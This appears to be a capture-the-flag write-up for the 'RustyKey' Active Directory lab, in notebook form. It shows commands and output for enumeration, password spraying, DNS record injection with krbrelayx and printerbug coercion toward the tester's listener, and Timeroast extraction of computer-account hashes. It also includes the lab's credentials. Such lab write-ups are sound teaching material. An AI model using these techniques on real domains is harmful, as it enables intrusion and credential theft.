






# week7-rustkey

## Engagement Notes

> As is common in real life Windows pentests, you will start the RustyKey box with credentials for the following account: rr.parker / 8#t5HE8L!W3A

This box was marked as "Hard" but I spent more time on this than I did any other challenge, and I also needed support in making it through some of these avenues as there were many techniques in here I had not had an opportunity to play with before.

The box itself, once the techniques are understood, is not too difficult so long as you're patient and retry things.

To start this opens up as a basic Windows enumeration with the tricky bit of NTLM being disabled across the board. We can get some basic information out of LDAP directly with our original user, which helps to identify a computer that is part of an OU with permissions. Using timeroasting we can get the hash of the compute and crack it. Using this, we can use its manually generated credential to remove some users from protected groups as well as reset passwords to log in with the foothold user. With the same computer account, we can do shimmy our way into the user with permission to set Act On Behalf Of for the computer account, and forge a ticket as the backupadmin account which is a domain admin. With this we can log into the server and interact as root.

# Enumeration

### Set variables and baseline functions for further engagement


```python
from utils import * # Use `widget.summary()` to get all the premade code blocks

source =! ip address | grep tun | grep 10 | tr "/" " " | awk '{print $2}'
public_source = requests.get('https://ifconfig.co/ip').text
target = 'rustykey.htb'

print(f"source: {source}")
print(f"target: {target}")
```

    source: ['10.10.14.81']
    target: rustykey.htb


### Port scan target


```python
!rustscan -a $target
```

    .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
    | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
    | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
    `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
    The Modern Day Port Scanner.
    ________________________________________
    : http://discord.skerritt.blog         :
    : https://github.com/RustScan/RustScan :
     --------------------------------------
    Breaking and entering... into the world of open ports.
    
    [~] The config file is expected to be at "/home/tokugero/.rustscan.toml"
    [~] File limit higher than batch size. Can increase speed by increasing batch size '-b 524188'.
    Open 10.129.174.88:53
    Open 10.129.174.88:88
    Open 10.129.174.88:139
    Open 10.129.174.88:135
    Open 10.129.174.88:389
    Open 10.129.174.88:445
    Open 10.129.174.88:464
    Open 10.129.174.88:593
    Open 10.129.174.88:636
    Open 10.129.174.88:3268
    Open 10.129.174.88:3269
    Open 10.129.174.88:5985
    Open 10.129.174.88:9389
    Open 10.129.174.88:47001
    Open 10.129.174.88:49666
    Open 10.129.174.88:49665
    Open 10.129.174.88:49669
    Open 10.129.174.88:49664
    Open 10.129.174.88:49671
    Open 10.129.174.88:49677
    Open 10.129.174.88:49667
    Open 10.129.174.88:49670
    Open 10.129.174.88:49693
    Open 10.129.174.88:49673
    Open 10.129.174.88:49674
    Open 10.129.174.88:57029
    [~] Starting Script(s)
    [~] Starting Nmap 7.97 ( https://nmap.org ) at 2025-06-28 12:12 -0700
    Initiating Ping Scan at 12:12
    Scanning 10.129.174.88 [2 ports]
    Completed Ping Scan at 12:12, 0.10s elapsed (1 total hosts)
    Initiating Parallel DNS resolution of 1 host. at 12:12
    Completed Parallel DNS resolution of 1 host. at 12:12, 0.50s elapsed
    DNS resolution of 1 IPs took 0.50s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
    Initiating Connect Scan at 12:12
    Scanning 10.129.174.88 [26 ports]
    Discovered open port 445/tcp on 10.129.174.88
    Discovered open port 135/tcp on 10.129.174.88
    Discovered open port 139/tcp on 10.129.174.88
    Discovered open port 53/tcp on 10.129.174.88
    Discovered open port 3269/tcp on 10.129.174.88
    Discovered open port 5985/tcp on 10.129.174.88
    Discovered open port 47001/tcp on 10.129.174.88
    Discovered open port 49673/tcp on 10.129.174.88
    Discovered open port 49670/tcp on 10.129.174.88
    Discovered open port 49664/tcp on 10.129.174.88
    Discovered open port 49669/tcp on 10.129.174.88
    Discovered open port 49674/tcp on 10.129.174.88
    Discovered open port 593/tcp on 10.129.174.88
    Discovered open port 464/tcp on 10.129.174.88
    Discovered open port 389/tcp on 10.129.174.88
    Discovered open port 88/tcp on 10.129.174.88
    Discovered open port 49665/tcp on 10.129.174.88
    Discovered open port 636/tcp on 10.129.174.88
    Discovered open port 3268/tcp on 10.129.174.88
    Discovered open port 49667/tcp on 10.129.174.88
    Discovered open port 49693/tcp on 10.129.174.88
    Discovered open port 57029/tcp on 10.129.174.88
    Discovered open port 49666/tcp on 10.129.174.88
    Discovered open port 49677/tcp on 10.129.174.88
    Discovered open port 49671/tcp on 10.129.174.88
    Discovered open port 9389/tcp on 10.129.174.88
    Completed Connect Scan at 12:12, 0.21s elapsed (26 total ports)
    Nmap scan report for 10.129.174.88
    Host is up, received conn-refused (0.11s latency).
    Scanned at 2025-06-28 12:12:06 PDT for 0s
    
    PORT      STATE SERVICE          REASON
    53/tcp    open  domain           syn-ack
    88/tcp    open  kerberos-sec     syn-ack
    135/tcp   open  msrpc            syn-ack
    139/tcp   open  netbios-ssn      syn-ack
    389/tcp   open  ldap             syn-ack
    445/tcp   open  microsoft-ds     syn-ack
    464/tcp   open  kpasswd5         syn-ack
    593/tcp   open  http-rpc-epmap   syn-ack
    636/tcp   open  ldapssl          syn-ack
    3268/tcp  open  globalcatLDAP    syn-ack
    3269/tcp  open  globalcatLDAPssl syn-ack
    5985/tcp  open  wsman            syn-ack
    9389/tcp  open  adws             syn-ack
    47001/tcp open  winrm            syn-ack
    49664/tcp open  unknown          syn-ack
    49665/tcp open  unknown          syn-ack
    49666/tcp open  unknown          syn-ack
    49667/tcp open  unknown          syn-ack
    49669/tcp open  unknown          syn-ack
    49670/tcp open  unknown          syn-ack
    49671/tcp open  unknown          syn-ack
    49673/tcp open  unknown          syn-ack
    49674/tcp open  unknown          syn-ack
    49677/tcp open  unknown          syn-ack
    49693/tcp open  unknown          syn-ack
    57029/tcp open  unknown          syn-ack
    
    Read data files from: /nix/store/wgw89vb58b7xdp5zk2r9fqy2qq3xxdd6-nmap-7.97/bin/../share/nmap
    Nmap done: 1 IP address (1 host up) scanned in 0.83 seconds
    


ABC: Always Bloodhound Cactivedirectory. 


```python
!mkdir -p ./bloodhounddumps
!docker compose --project-directory ~/.local/build/programs/bloodhound --progress quiet down --volumes
!docker compose --project-directory ~/.local/build/programs/bloodhound --progress quiet up -d
print("Connect to bloodhound at http://localhost:8080 (admin/bloodhound)")
print("For a full reset: docker compose down --volumes")

```

    Connect to bloodhound at http://localhost:8080 (admin/bloodhound)
    For a full reset: docker compose down --volumes


```python
domain = "rustykey"
initialuser = "rr.parker" 
initialpassword = "8#t5HE8L!W3A"
```

We're going to learn a thing or two about kerberos in this weeks challenge. The first one is that when NTLM is disabled, lots of samba will fail when authenitcating with basic auth.


```python
!enum4linux-ng -u $initialuser -p $initialpassword -d dc.$target
```

    ENUM4LINUX - next generation (v1.3.4)
    
     ==========================
    |    Target Information    |
     ==========================
    [*] Target ........... dc.rustykey.htb
    [*] Username ......... 'rr.parker'
    [*] Random Username .. 'cjroqfvs'
    [*] Password ......... '8#t5HE8L!W3A'
    [*] Timeout .......... 5 second(s)
    
     ========================================
    |    Listener Scan on dc.rustykey.htb    |
     ========================================
    [*] Checking LDAP
    [+] LDAP is accessible on 389/tcp
    [*] Checking LDAPS
    [+] LDAPS is accessible on 636/tcp
    [*] Checking SMB
    [+] SMB is accessible on 445/tcp
    [*] Checking SMB over NetBIOS
    [+] SMB over NetBIOS is accessible on 139/tcp
    
     =======================================================
    |    Domain Information via LDAP for dc.rustykey.htb    |
     =======================================================
    [*] Trying LDAP
    [+] Appears to be root/parent DC
    [+] Long domain name is: rustykey.htb
    
     ==============================================================
    |    NetBIOS Names and Workgroup/Domain for dc.rustykey.htb    |
     ==============================================================
    [-] Could not get NetBIOS names information via 'nmblookup': timed out
    
     ============================================
    |    SMB Dialect Check on dc.rustykey.htb    |
     ============================================
    [*] Trying on 445/tcp
    [+] Supported dialects and settings:
    Supported dialects:
      SMB 1.0: false
      SMB 2.02: true
      SMB 2.1: true
      SMB 3.0: true
      SMB 3.1.1: true
    Preferred dialect: SMB 3.0
    SMB1 only: false
    SMB signing required: true
    
     ==============================================================
    |    Domain Information via SMB session for dc.rustykey.htb    |
     ==============================================================
    [*] Enumerating via unauthenticated SMB session on 445/tcp
    [-] Could not enumerate domain information via unauthenticated SMB
    [*] Enumerating via unauthenticated SMB session on 139/tcp
    [-] SMB connection error on port 139/tcp: session failed
    
     ============================================
    |    RPC Session Check on dc.rustykey.htb    |
     ============================================
    [*] Check for null session
    [-] Could not establish null session: STATUS_NOT_SUPPORTED
    [*] Check for user session
    [-] Could not establish user session: STATUS_NOT_SUPPORTED
    [*] Check for random user
    [-] Could not establish random user session: STATUS_NOT_SUPPORTED
    [-] Sessions failed, neither null nor user sessions were possible
    
     ==================================================
    |    OS Information via RPC for dc.rustykey.htb    |
     ==================================================
    [*] Enumerating via unauthenticated SMB session on 445/tcp
    [+] Found OS information via SMB
    [*] Enumerating via 'srvinfo'
    [-] Skipping 'srvinfo' run, not possible with provided credentials
    [+] After merging OS information we have the following result:
    OS: unknown
    OS version: not supported
    OS release: null
    OS build: null
    Native OS: not supported
    Native LAN manager: not supported
    Platform id: null
    Server type: null
    Server type string: null
    
    [!] Aborting remainder of tests since sessions failed, rerun with valid credentials
    
    Completed after 9.40 seconds


Lets load up krb5.conf. You'll note that later in this challenge we discover that we must manually identify certificates that the server will negotiate. It seems this was likely changed on the remote server and will impact our attempts to use default aesxxx-cts-hmac-sha1-96 ciphers.


```python
!cat krb5.conf
```

    [libdefaults]
            default_realm = RUSTYKEY.HTB 
            dns_lookup_kdc = true
            dns_lookup_realm = false
            ticket_lifetime = 24h
            renew_lifetime = 7d
            forwardable = true
            rdns = false
            default_tkt_enctypes = arcfour-hmac-md5 aes128-cts-hmac-sha1-96 rc4-hmac
            default_tgs_enctypes = arcfour-hmac-md5 aes128-cts-hmac-sha1-96 rc4-hmac
            permitted_enctypes = arcfour-hmac-md5 aes128-cts-hmac-sha1-96 rc4-hmac
    [realms]
            RUSTYKEY.HTB = {
                    kdc = dc.rustykey.htb
                    admin_server = dc.rustykey.htb
            }
    
    [domain_realm]
            .rustykey.htb = RUSTYKEY.HTB
            rustykey.htb = RUSTYKEY.HTB


```python
!echo $initialpassword | KRB5_CONFIG=./krb5.conf KRB5CCNAME=./rr.ccache kinit rr.parker
!ls -alhn ./rr.ccache
```

    Password for rr.parker@RUSTYKEY.HTB: 
    Warning: encryption type arcfour-hmac used for authentication is deprecated and will be disabled
    -rw------- 1 1000 990 1.6K Jul  6 22:44 ./rr.ccache


This mostly comes with the benefit of hindsight. During the engagement I didn't get this working exactly right, but this command will pull bloodhoudn goodies.


```python
!KRB5CCNAME=./rr.ccache KRB5_CONFIG=./krb5.conf bloodhound-python -u $initialuser -k -no-pass -ns 10.129.26.114 -d $target -dc dc.rustykey.htb -c All
```

    INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
    INFO: Found AD domain: rustykey.htb
    INFO: Using TGT from cache
    INFO: Found TGT with correct principal in ccache file.
    INFO: Connecting to LDAP server: dc.rustykey.htb
    INFO: Found 1 domains
    INFO: Found 1 domains in the forest
    INFO: Found 16 computers
    INFO: Connecting to LDAP server: dc.rustykey.htb
    INFO: Found 12 users
    INFO: Found 58 groups
    INFO: Found 2 gpos
    INFO: Found 10 ous
    INFO: Found 19 containers
    INFO: Found 0 trusts
    INFO: Starting computer enumeration with 10 workers
    INFO: Querying computer: 
    <snip>
    INFO: Querying computer: dc.rustykey.htb
    INFO: Done in 00M 21S


```python
users =!ldapsearch -H ldap://rustykey.htb -D '{domain}\{initialuser}' -w $initialpassword -b "dc=rustykey,dc=htb" "(&(objectClass=user)(objectCategory=person))" sAMAccountName | grep sAMAccountName: | cut -d" " -f2
pprint(users)
```

    ['Administrator',
     'Guest',
     'krbtgt',
     'rr.parker',
     'mm.turner',
     'bb.morgan',
     'gg.anderson',
     'dd.ali',
     'ee.reed',
     'nn.marcos',
     'backupadmin']


Test credentials against all users. I'm going to leave this here to show what a bad idea looks like. Another challenge I will learn it's far easier to user `kerbrute` to password spray. I'll leave this here for the annuls of history.


```python
import winrm

for user in users:
    !ldapwhoami -x -H ldap://rustykey.htb -D '{domain}\{user}' -w $initialpassword
```

    ldap_bind: Invalid credentials (49)
    	additional info: 80090308: LdapErr: DSID-0C090597, comment: AcceptSecurityContext error, data 52e, v4563
    ldap_bind: Invalid credentials (49)
    	additional info: 80090308: LdapErr: DSID-0C090597, comment: AcceptSecurityContext error, data 52e, v4563
    ldap_bind: Invalid credentials (49)
    	additional info: 80090308: LdapErr: DSID-0C090597, comment: AcceptSecurityContext error, data 52e, v4563
    u:RUSTYKEY\rr.parker
    ldap_bind: Invalid credentials (49)
    	additional info: 80090308: LdapErr: DSID-0C090597, comment: AcceptSecurityContext error, data 52e, v4563
    ldap_bind: Invalid credentials (49)
    	additional info: 80090308: LdapErr: DSID-0C090597, comment: AcceptSecurityContext error, data 52f, v4563
    ldap_bind: Invalid credentials (49)
    	additional info: 80090308: LdapErr: DSID-0C090597, comment: AcceptSecurityContext error, data 52f, v4563
    ldap_bind: Invalid credentials (49)
    	additional info: 80090308: LdapErr: DSID-0C090597, comment: AcceptSecurityContext error, data 52e, v4563
    ldap_bind: Invalid credentials (49)
    	additional info: 80090308: LdapErr: DSID-0C090597, comment: AcceptSecurityContext error, data 52f, v4563
    ldap_bind: Invalid credentials (49)
    	additional info: 80090308: LdapErr: DSID-0C090597, comment: AcceptSecurityContext error, data 52e, v4563
    ldap_bind: Invalid credentials (49)
    	additional info: 80090308: LdapErr: DSID-0C090597, comment: AcceptSecurityContext error, data 52e, v4563


This one's a staple. I'll later start using ldeep which will also enumerate these templates if they're available.


```python
!certipy find -dc-ip 10.129.232.127 -no-pass -k -ns 10.129.232.127 -target dc.rustykey.htb -ldap-scheme ldap -ldap-simple-auth -stdout 
```

    Certipy v5.0.3 - by Oliver Lyak (ly4k)
    
    [*] Finding certificate templates
    [*] Found 0 certificate templates
    [*] Finding certificate authorities
    [*] Found 0 certificate authorities
    [*] Found 0 enabled certificate templates
    [*] Finding issuance policies
    [*] Found 1 issuance policy
    [*] Found 0 OIDs linked to templates
    [*] Enumeration output:
    Certificate Authorities                 : [!] Could not find any CAs
    Certificate Templates                   : [!] Could not find any certificate templates


Here's our first target, HelpDesk. With this we can get access to all groups and functions that support remote authentication or delegation permissions. And our first target, based on permissions to addself to helpdesk, will be it-computer3





### Rabbit hole of KerbRelayX
This didn't go anywhere, but it is a super interesting application of attempting to force a kerberos callback to a listener to steal credentials if you have a valid agent that can phone back home. Because of SMBSigning throughout this challenge, NTLMRelay/KerbRelay do not work; but it was a fun exercise so I'm leaving these notes here because I did get phones home at least..

I should have taken the hint for it-computer3 that timeroasting is a viable approach, but I didn't know it existed yet.

```sh
 python dnstool.py -u 'rustykey.htb\rr.parker' -p '8#t5HE8L!W3A' -d "10.10.14.81" --action add -r "dc1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA" --tcp -k dc.rustykey.htb --print-zones
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Found 2 domain DNS zones:
    RootDNSServers
    rustykey.htb
[-] Found 1 forest DNS zones:
    _msdcs.rustykey.htb
 python dnstool.py -u 'rustykey.htb\rr.parker' -p '8#t5HE8L!W3A' -d "10.10.14.81" --action add -r "dc1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA" --tcp -k dc.rustykey.htb --print-zones-dn
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Found 2 domain DNS zones:
    DC=RootDNSServers,CN=MicrosoftDNS,DC=DomainDnsZones,DC=rustykey,DC=htb
    DC=rustykey.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=rustykey,DC=htb
[-] Found 1 forest DNS zones:
    DC=_msdcs.rustykey.htb,CN=MicrosoftDNS,DC=ForestDnsZones,DC=rustykey,DC=htb
 python dnstool.py -u 'rustykey.htb\rr.parker' -p '8#t5HE8L!W3A' -d "10.10.14.81" --action add -r "it-computer3" --tcp -k dc.rustykey.htb -dns-ip 10.129.174.88
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
 python dnstool.py -u 'rustykey.htb\rr.parker' -p '8#t5HE8L!W3A' -d "10.10.14.81" --action query -r "it-computer3" --tcp -k dc.rustykey.htb -dns-ip 10.129.174.88
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[+] Found record it-computer3
DC=it-computer3,DC=rustykey.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=rustykey,DC=htb
[+] Record entry:
 - Type: 1 (A) (Serial: 88)
 - Address: 10.10.14.81
 ```

```sh
 python dnstool.py -u 'rustykey.htb\rr.parker' -p '8#t5HE8L!W3A' -d "10.10.14.81" --action add -r "it-computer31UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA.rustykey.htb" --tcp -k dc.rustykey.htb -dns-ip 10.129.174.88
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[!] Record already exists and points to 10.10.14.81. Use --action modify to overwrite or --allow-multiple to override this
...
 sudo python krbrelayx.py -t dc.rustykey.htb
/home/tokugero/ctf/htb/season8/week7-rustkey/.venv/lib/python3.13/site-packages/impacket/examples/ntlmrelayx/attacks/__init__.py:20: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
[*] Protocol Client SMB loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Running in attack mode to single host
[*] Running in kerberos relay mode because no credentials were specified.
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up DNS Server

[*] Servers started, waiting for connections
[*] SMBD: Received connection from 10.129.174.88
[-] Unsupported MechType 'NTLMSSP - Microsoft NTLM Security Support Provider'
[*] SMBD: Received connection from 10.129.174.88
[-] Unsupported MechType 'NTLMSSP - Microsoft NTLM Security Support Provider'
[*] SMBD: Received connection from 10.129.174.88
[-] Unsupported MechType 'NTLMSSP - Microsoft NTLM Security Support Provider'
...
 python printerbug.py -k -no-pass dc.rustykey.htb -dc-ip 10.129.174.88 it-computer31UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA.rustykey.htb
/home/tokugero/ctf/htb/season8/week7-rustkey/.venv/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
[*] Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Attempting to trigger authentication via rprn RPC at dc.rustykey.htb
[*] Bind OK
[*] Got handle
DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Triggered RPC backconnect, this may or may not have worked
```

I finally discover ldeep at this point. It's now a staple in my windows enumeration.

```sh
 ldeep ldap -u 'rr.parker' -p '8#t5HE8L!W3A' -d rustykey.htb -s ldap://rustykey.htb -t simple users all
backupadmin
nn.marcos
ee.reed
dd.ali
gg.anderson
bb.morgan
mm.turner
rr.parker
krbtgt
Guest
Administrator
```

```sh
 ldeep ldap -u 'rr.parker' -p '8#t5HE8L!W3A' -d rustykey.htb -s ldap://rustykey.htb -t simple zone rustykey.htb
[+] Domain records:
it-computer3 A 10.10.14.81
tokusucks A 10.10.14.81
it-computer31UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA A 10.10.14.81
foobar A 10.10.14.81
fubar A 10.10.14.81
rustykey.htb1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA A 10.10.14.81
fubar.rustykey.htb1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA A 10.10.14.81
dc1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA A 10.10.14.81
ForestDnsZones AAAA dead:beef::67b:dc61:d4f4:7ec2
ForestDnsZones A 10.129.174.88
DomainDnsZones AAAA dead:beef::67b:dc61:d4f4:7ec2
DomainDnsZones A 10.129.174.88
dc AAAA dead:beef::67b:dc61:d4f4:7ec2
dc A 10.129.174.88
_msdcs NS dc.rustykey.htb
@ AAAA dead:beef::67b:dc61:d4f4:7ec2
@ NS dc.rustykey.htb
@ A 10.129.174.88
```

The first hint I got asked "Have you ever heard of timeroasting?". I had not. But boy was it easy.

By querying the NTP service we can do shenanigans to pull a list of machines and associated crackable-hashes to try to divine a password. https://github.com/SecuraBV/Timeroast


```python
!python Timeroast/timeroast.py dc.$target | tee timeroast.crack
```

    1000:$sntp-ms$06da8a02e61737db25ceced8c503fae2$1c0111e900000000000a05e54c4f434cec15da3e98118cf0e1b8428bffbfcd0aec15e2053be884b9ec15e2053be8a499
    1103:$sntp-ms$22c202ddc989a82b8fff75b90096ec37$1c0111e900000000000a05e64c4f434cec15da3e981719f7e1b8428bffbfcd0aec15e205fbeddc11ec15e205fbee4415
    1104:$sntp-ms$99e22d6053eced4accff6e0412341e3e$1c0111e900000000000a05e64c4f434cec15da3e981b1cbbe1b8428bffbfcd0aec15e205fbf1f7ffec15e205fbf23e76
    1105:$sntp-ms$a1f639dfbd90bc41e40e2ce1356c33c7$1c0111e900000000000a05e64c4f434cec15da3e942c73fce1b8428bffbfcd0aec15e205fc1be60fec15e205fc1c25d0
    1106:$sntp-ms$7cd4c4fdd2bddf96a1978f890b576c46$1c0111e900000000000a05e64c4f434cec15da3e94480e8ce1b8428bffbfcd0aec15e205fc37824dec15e205fc37bd05
    1107:$sntp-ms$84fa554ca1bc1a88db498461af574fa2$1c0111e900000000000a05e64c4f434cec15da3e9473f3ede1b8428bffbfcd0aec15e205fc634620ec15e205fc63a5c1
    1118:$sntp-ms$72bd98164427c17512914d74d59d4325$1c0111e900000000000a05e64c4f434cec15da3e949043afe1b8428bffbfcd0aec15e2061487584eec15e20614906a45
    1119:$sntp-ms$b7231e4d8493fcd9d83eefe403ba25c9$1c0111e900000000000a05e64c4f434cec15da3e974fe296e1b8428bffbfcd0aec15e206174fa2d5ec15e206175005d1
